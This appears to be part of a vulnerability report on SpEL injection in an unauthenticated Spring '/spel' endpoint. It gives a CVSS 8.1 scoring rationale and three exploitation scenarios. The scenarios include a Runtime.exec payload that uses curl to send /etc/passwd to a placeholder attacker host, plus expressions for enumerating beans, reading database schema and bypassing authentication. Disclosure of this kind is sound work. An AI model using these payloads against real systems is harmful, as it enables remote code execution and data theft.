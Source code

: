 # CVSS
**Score**: 8.1 \
**Vector**: CVSS:3.1/AV:N/AC:H/PR:N/UI:N/S:U/C:H/I:H/A:H \
**Severity**: High

The High severity rating (8.1) is justified by several factors:

- **Network Attack Vector (AV:N)**: The vulnerability is exploitable remotely by anyone who can send HTTP requests to the affected endpoint, making it broadly accessible to potential attackers.

- **High Attack Complexity (AC:H)**: Exploitation requires specialized knowledge of Spring Expression Language syntax, Spring framework internals, and Java reflection techniques. Crafting effective payloads demands understanding of the target application's structure and class hierarchy. The attacker must often employ trial and error to determine which classes are available in the classpath and how to reference them properly. Additionally, security protections like class loading restrictions and security managers may need to be bypassed, further increasing complexity.

- **No Privileges Required (PR:N)**: The vulnerable endpoint does not require authentication, allowing unauthenticated attackers to exploit it.

- **No User Interaction (UI:N)**: The vulnerability can be exploited without any actions from legitimate users.

- **Unchanged Scope (S:U)**: While the impact is severe, the vulnerability affects only the vulnerable component itself.

- **High Confidentiality Impact (C:H)**: Attackers can access sensitive information from the application, system properties, environment variables, and configuration data.

- **High Integrity Impact (I:H)**: Attackers can modify data within the application by manipulating the application context or executing code that changes application state.

- **High Availability Impact (A:H)**: Attackers can impact service availability by causing exceptions, consuming resources, or directly manipulating application components that affect stability.

The combination of remote exploitation with no authentication requirements and the potential for complete system compromise results in a high severity rating, mitigated only by the specialized knowledge required to craft effective exploitation payloads.

# Exploitation Scenarios
**Scenario 1: Arbitrary Code Execution**
An attacker discovers the vulnerable `/spel` endpoint through routine scanning. They craft a malicious payload using Java reflection capabilities: `T(java.lang.Runtime).getRuntime().exec('curl -d "$(cat /etc/passwd)" https://attacker.com/exfil')`. When submitted as the `expr` parameter, this payload executes a shell command that exfiltrates the system's password file to the attacker's server.

**Scenario 2: Data Exfiltration**
An attacker submits a series of exploratory SpEL expressions to map the application context. Starting with `@applicationContext.getBeanDefinitionNames()` to enumerate available beans, they discover a `dataSource` bean. They then craft expressions like `@dataSource.getConnection().getMetaData().getTables(null, null, "%", null).toString()` to extract database schema information, followed by targeted data extraction using custom SQL queries through the connection.

**Scenario 3: Authentication Bypass**
The attacker uses SpEL to locate authentication components with `@applicationContext.getBeansOfType(T(org.springframework.security.authentication.AuthenticationManager).class)`. After identifying authentication managers and related beans, they craft expressions to manipulate authentication state or extract credential-checking logic, ultimately bypassing authentication mechanisms entirely.
